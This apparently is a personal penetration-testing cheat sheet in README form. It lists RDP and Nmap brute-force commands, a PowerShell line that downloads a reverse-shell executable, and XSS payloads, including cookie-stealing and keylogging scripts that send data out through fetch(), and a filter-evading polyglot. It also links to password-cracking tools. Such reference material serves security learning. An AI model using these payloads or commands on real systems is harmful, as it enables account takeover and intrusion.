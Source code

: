  <!-- <h1 align='center'> Penetration time</h1> -->
 <body>
	
[![Typing SVG](https://readme-typing-svg.demolab.com?font=Bitter&weight=500&size=40&pause=1000&color=3C4CFF&background=AC51FF00&width=500&height=80&lines=P3netrati0n+T1me!)](https://git.io/typing-svg)
<img src='https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExYWM2NWI0ZDIwMjA3ZWIyYWRiZmEyYzA5NTFlNThmNTFhYWI1MWE0ZiZlcD12MV9pbnRlcm5hbF9naWZzX2dpZklkJmN0PWc/3oz8xA9gtnyVDPZJHW/giphy.gif' width='250'/>
<h1>My pentesting cheat sheet, where I share "hotkey" tools and the same things.</h1>
There is a :
<ol>
	<li> <a href='https://github.com/Kode-n-Rolla/pentesting_time/tree/main/network_tools'>network tools</a>
  	<li> <a href='#n1'>command examples</a>
  	<li> <a href='#n2'>payloads</a>
  	<li> <a href='#n3'>helpful sites</a>
	<li> <a href='#n4'>tools</a>
	<!--<li> cheat sheet injections
  	<li> shells!
	<li> resume my stars-->
</ol>

<h2 align='center' id='n1'><em> Example Commands</em> </h2> 
	Example commands contains:
	<li> Remote Desktop Protocol <a href='#n1.1'> (RDP) </a>
	<li> <a href='#n1.2'> Command </a> to get stable shell from unstable from PowerShell
	<li> <a href='#n1.3'> Find </a> commands in Linux
	<li> Nmap <a href='#n1.4'> commands </a> with vulners script
<h3 id='n1.1'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Remote Desktop Protocol (RDP)</h3>
  <pre><code>xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;'PASSWORD'></code></pre>
  <p><pre><code>xfreerdp /v:&lt;TARGET_IP> /u:&lt;USERNAME> /p:&lt;PASSWORD> +clipboard</code></pre>
	
<h3 id='n1.2'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;To get stable shell from unstable from PowerShell</h3>
  <pre><code>powershell -c "Invoke-WebRequest -Uri 'http://&lt;LOCAL_IP>:&lt;PORT>/&lt;FILENAME.exe>' -OutFile 'C:\Windows\Temp\&lt;FILENAME.exe>'"</code></pre> where filename is the reverse shell
  
<h3 id='n1.3'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Commands to find in:</h3>
<h4>&nbsp;&nbsp;&nbsp;Linux</h4>
	<p> <pre><code>find / -type f</code></pre> - Find all files in / directory (-type d for find dirs)
	<p> <pre><code>find / -type f | grep '&lt;FILE_NAME>'</code></pre> - File name search
	<p> <pre><code>find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null</code></pre> - Find all path files with ‘config’ in proc dirs
		
<h3 id='n1.4'>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Nmap with vulnerse script</h3>
Need to <a href='https://github.com/vulnersCom/nmap-vulners/archive/master.zip'>download</a> script files from github and install it. Thanks for that, Vulners Team!

   <p> <pre><code> Nmap -Pn &lt;TARGET_IP> --script=vulnerse.nse -p &lt;PORT(S)></code></pre> - Checking for a vulnerability in the software on the server.
   <p> <pre><code> nmap --script ssh-brute -p &lt;SSH_PORT> &lt;TARGET_IP> --script-args userdb=users.lst,passdb=passwords.lst</code></pre> - Checking brute force resistance on ssh
   <p> <pre><code> nmap -d --script ftp-brute -p &lt;FTP_PORT> &lt;TARGET_IP></code></pre> - Checking brute force resistance on ftp
   <p> <pre><code> nmap -sV --script=mysql-empty-password &lt;TARGET_IP></code></pre> - Checking mysql anonymous login
   <p> <pre><code> nmap --script mysql-brute -p &lt;MYSQL_PORT> &lt;TARGET_IP> --script-args userdb=users.lst, passdb=passwords.lst</code></pre> - Attempts to select a pair of login/password to enter the mysql database
   <p> <pre><code> nmap -sV -p &lt;PORT> –script http-enum &lt;TARGET_IP></code></pre> - Search for hidden folders and files
   <p> P.S. If CMS, research <code>&lt;name_0f_CMS_0r_DB> brute force nmap</code>
	
<h2 align='center' id='n2'><em>Payloads</em></h2>
    <h3>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;XSS Payloads</h3>
    <li> <b>Proof Of Concept (PoC)</b> - <pre><code><script>alert('Success XSS!');</script></code></pre>
      <p>This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text "Success XSS".
    <li> <b>Session Srealing</b> - <pre><code><script>fetch('url/steal?cookie=' + btoa(document.cookie));</script></code></pre>
      <p>Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.
    <li> <b>Key Logger</b> - <pre><code><scripr>document.onkeypress = function(v) {fetch('url/log?key=' + btoa(v.key));}</script></code></pre>
      <p>The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.
    <li> <b>Business Logic</b> - <pre><code><script>user.changeEmail('your@email.com');</script></code></pre>
      <p>This payload is a lot more specific than the above examples. This would be about calling a particular network resource or a JavaScript function. For example, imagine a JavaScript function for changing the user's email address called user.changeEmail().
    <li><b>Polyglots</b> - <pre><code>jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('Success XSS!'))//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('Success XSS!')//>\x3e</code></pre>
      <p>An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully.
	      
        
<h2 align='center' id='n3'><em>Sites</em></h2>
      <li> <a href='https://crackstation.net/'>crackstation.net</a> - online password hash cracker
      <li> <a href='https://www.base64encode.org/'>Base64</a> encode/decode
      <li> <a href='https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet'>Reverse Shell Cheat Sheet</a>
      <li> <a href='https://hashes.com/en/tools/hash_identifier'>Identify hash types</a>
      <li> <a href='https://devhints.io/bash'>Bash scripting</a> cheat sheet
      <li> <a href='https://gchq.github.io/CyberChef/'>CyberChef</a> - encode/decode service
      <li> <a href='https://www.kirsle.net/wizards/flask-session.cgi'>Flask Session Cookie Decoder</a>
      <li> <a href='https://viewdns.info/'>ViewDNS</a> Offers reverse IP Lookup. OSINT tool. 
      <li> <a href='https://www.shodan.io/'>ViewDNS</a> is the world's first search engine for Internet-connected devices. OSINT tool.
      <li> <a href='https://search.censys.io/'>Censys Search</a> Can provide a lot of information about IP addresses and domains. OSINT tool.
      <li> <a href='https://cirt.net/passwords'>CIRT.net</a> Default Passwords service
      <li> <a href='https://default-password.info/'>Default-Password.info</a> Default Passwords service
      <li> <a href='https://datarecovery.com/rd/default-passwords/'>Datarecovery.com</a> Dafault Passwords service
      <li> <a href='https://wiki.skullsecurity.org/index.php?title=Passwords'>This</a> wiki page includes the most well-known collections of passwords.
	      
        
<h2 align='center' id='n4'><em>Tools</em></h2>
	<ol>
		<li><h3><a href='https://www.kali.org/tools/ncurses-hexedit/'>Hexeditor</a></h3>
	        	<p> Tools for change files signature. <a href='https://en.wikipedia.org/wiki/List_of_file_signatures'>Link</a> to Wiki with List of file signatures. 
		<li><h3><a href='https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master'>Tool</a> for hash identification.</h3> 
			<p> Python file. Powerful.
		<li><h3><a href='https://www.kali.org/tools/crunch/'>Crunch</a></h3>
		   <p> This is one of many powerful tools for creating an offline wordlist. With crunch, you can specify numerous options, including min, max, and options. The following example creates a wordlist containing all possible combinations of 3 characters, including 1-5 and qwerty. You can use the -o argument to save. <p>Example: <pre><code>crunch 3 3 12345qwerty -o cranch.txt</code></pre>.
		<li><h3><a href='https://github.com/therodri2/username_generator'>Username generator</h3>
			<p>Could help create a list with most of the possible combinations if we have a first name and last name. Use git clone and <p> <pre><code>python3 username_generator.py -h</code></pre> shows the tool's help message and optional arguments.
	</ol>
	
</body>
